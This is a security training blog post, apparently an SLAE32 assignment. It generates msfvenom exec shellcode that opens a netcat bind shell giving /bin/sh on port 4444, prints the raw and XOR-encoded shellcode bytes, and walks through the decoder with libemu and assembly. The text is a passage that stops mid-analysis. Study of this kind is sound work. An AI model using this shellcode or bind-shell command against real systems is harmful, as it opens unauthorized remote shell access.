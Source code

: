 ```yaml
---
title: SLAE32 Assignment 5 -- Analyzing MSF-Venom Dynamic XOR Encoded Exec Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Reverse
  - Netcat
  - metasploit
  - msfvenom
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
![](/pics/msfLogo.png)
## Overview
For the 5th assignment of the SLAE Exam, I will be analyzing 3 different linux x86 shellcodes created with MSF Venom.  
The first will be the payload `/linux/x86/exec`.   
+ The command being executed will be `nc -nlp 4444 -e "/bin/sh" &`  
+ This will create a bind shell, on TCP port 4444, on all network interfaces, and then background the process.  

## Testing the Command
```console
root# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root# netstat -tnalp | grep nc
tcp   0.0.0.0:4444    0.0.0.0:*  LISTEN  9119/nc
```
+ The command successfully ran and was given the process ID 9119 and the job ID of 1.  
+ The process `nc` is successfully listening on all interfaces `0.0.0.0`, on TCP port `4444`.  

Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.  

### Connecting to Netcat Shell
```console
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
+ We successfully are able to run commands with our netcat, bind shell.  

## Creating the Shellcode with msfvenom
Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command. The output will be in C so we can easily add it to our shellcode.c program.  

```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c
Payload size: 63 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1c\x00\x00\x00\x6e"
"\x63\x20\x2d\x6e\x6c\x70\x20\x34\x34\x34\x34\x20\x2d\x65\x20"
"\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x20\x26\x00\x57\x53\x89"
"\xe1\xcd\x80";
```
+ This payload contains NULL bytes, rendering it useless for shellcode. We will use the builtin XOR encoder to encode our payload before we analyze it.  

### Encoding the Payload
```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c --encoder x86/xor_dynamic     
x86/xor_dynamic chosen with final size 109
Payload size: 109 bytes
unsigned char buf[] =
"\xeb\x23\x5b\x89\xdf\xb0\x1a\xfc\xae\x75\xfd\x89\xf9\x89\xde"                                                         
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x88\x02\x74\x08\x46\x80\x3e"                                                         
"\x1a\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x02\x1a\x68"                                                         
"\x09\x5a\x9b\x50\x64\x6a\x2f\x61\x8b\xe5\x6a\x2d\x71\x6a\x02"                                                         
"\x6a\x2d\x60\x6b\x6c\x8b\xe1\x50\xea\x1e\x02\x02\x02\x6c\x61"                                                         
"\x22\x2f\x6c\x6e\x72\x22\x36\x36\x36\x36\x22\x2f\x67\x22\x20"                                                         
"\x2d\x60\x6b\x6c\x2d\x71\x6a\x20\x22\x24\x02\x55\x51\x8b\xe3"                                                         
"\xcf\x82\x88\x02";
```

Perfect, now our shellcode is NULL free. Next we will use sctest from libemu to analyze the shellcode.

### Installing LibEmu  
I used my  64-bit Kali machine to create the 32-bit MSF Venom shellcode, and to analyze it with libemu. Unfortunately I could not find a trust-worthy download from the internet. Fortunately libemu is included in the kali repo.
```console
root# apt search libemu
libemu2/kali-rolling,now 0.2.0+git20120122-1.2+b1 amd64 [installed,automatic]
  x86 shellcode detection and emulation
```

### LibEmu Shellcode Analyzation
Now that we have libemu, we will pipe our payload from msfvenom into sctest. Using sctest from libemu, we will create a visual map of how the shellcode is being executed.  

```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' \
--encoder x86/xor_dynamic | sctest -Ss 10000 -vvv -G execNC.dot
# Convert from dot to png
root# dot -Tpng execNC.dot -o execNC.png
# open png picture with eog
eog execNC.png
```

![](/pics/execNC.png)

## Breaking Down the Flow Chart
At first this may look a little over-whelming, but once we start breaking it down, we will see it is not that bad.  

In the top most block, we can see that the shellcode is using the _Jump-Call-Pop_ technique.  

The first instruction `jmp 0x25`, jumps our Instruction Pointer `EIP` forward 25 bytes. 
+ This is a short jump. 
  - Short jumps use offsets instead of a hard-coded address. 
  - This allows the shellcode to work in the programs it is injected into.

The next instruction `call 0xffffffdd`, is a call instruction. 
+ This is similar to a jump instruction. 
  - Although before jumping, the instruction after the call instruction is pushed onto the stack. 
+ This allows the program to return to where it was, once it is done execution where it was called to. 
+ In our situation, the next instruction is actually the memory location to our string. 
  - Our string is our entire, XOR'd shellcode payload. 

The 3rd instruction `pop ebx`, _pop's_ the pointer to our payload off into the `EBX` Register.   

Once in the EBX Register, it is duplicated to the EDI Register using the instruction `mov, edi,ebx`.  

We can see that the loop, outlined using the blue arrow, is a XOR decoder loop.  
+ The decoder decodes our shellcode byte by byte using the instruction `xor [edi], al`.   

After the byte is decoded, the EDI Register is moved forward one byte using the instruction `inc edi`.   

The instruction `cmp word [edi],0x971b` compares 2 bytes (a word) starting at the memory location of EDI, with the value 0x971b.   
+ If the compare instruction returns that the 2 words match, then the result will return a 0.  
+ The `cmp` instruction subtracts the two values and sets the Zero Flag if Zero.  

The instruction `jz 0xa` will jump `EIP` forward 10 bytes, if the last instruction returned zero.   
+ This insturction is "Jump if Zero", also know as "Jump if Equal".   

If we do the math we can see that that would change our location from 0x00417019, to 0x00417023 (indicated by the black arrow).   
Remember that this is in Hex not in Decimal, do not be decieved thinking it is only moving forward four.   
```
Decimal Incrementing:  0  > 1  > 2  > 3  > 4  > 5  > 6  > 7  > 8  > 9  > 10
    
Hex Incrementing:      19 > 1a > 1b > 1c > 1d > 1e > 1f > 20 > 21 > 22 > 23
```
